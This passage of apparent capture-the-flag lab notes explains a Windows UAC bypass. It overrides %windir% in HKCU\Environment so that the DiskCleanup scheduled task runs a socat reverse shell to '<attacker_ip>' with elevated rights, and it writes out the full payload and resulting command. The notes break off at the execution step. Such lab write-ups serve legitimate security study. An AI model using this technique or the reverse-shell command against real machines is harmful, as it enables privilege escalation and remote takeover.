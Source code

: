 	- The Absolute Path of the program is C:\Windows\System32\cleanmgr.exe

![](/assets/img/Pasted image 20230120105951.png)

- Since the command depend on environment variables, we might be able to `inject` commands through them and get them executed by starting the `DiskCleanup` task manually.

- What does it run when using the option "`Allow task to be run on demand`"?
`%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

	Breakdown:
	- %windir% : this is equivalent to `C:\Windows` which is the windows directory or system root path. The system acknowledges this environment variable by default.
	- %systemdrive% : this is the `C:\` directory which holds the `C:\Windows` folder.The system acknowledges this environment variable by default.

- These `environment variables` can be overridden by modifying the `HKCU\Environment` entry in the **registry editor**.
- We want to replace `%windir%` with `"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`.

		- Note that this is only possible because of the fact that an environment variable resides at the start of the command in this scheduled task.
		- We can POISON this environment variable so the system will no longer acknowledge its default value which is `C:\Windows`.

- At the end of our command, we `concatenate` "**&REM**" (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used by `DiskCleanup`.

- The resulting command would be:

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`

- Basically, `"%windir%" == "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "` is its equivalent if we unwrap poisoined `%windir%`.

		- Anything inside the double quotation is included. Including the blank spaces.

- Note that ANYTHING after the "**`REM`**" is ignored as a comment.


### Putting it all together

##### 1. Setup a listener for a reverse shell with `nc` on the AttackBox:

![](/assets/img/Pasted image 20230120111830.png)

##### 2. Connect to the backdoor on port `9999`:

![](/assets/img/Pasted image 20230120111937.png)


##### 3. Writing the payload to `%windir%` and then execute the `DiskCleanup` task using the backdoor:
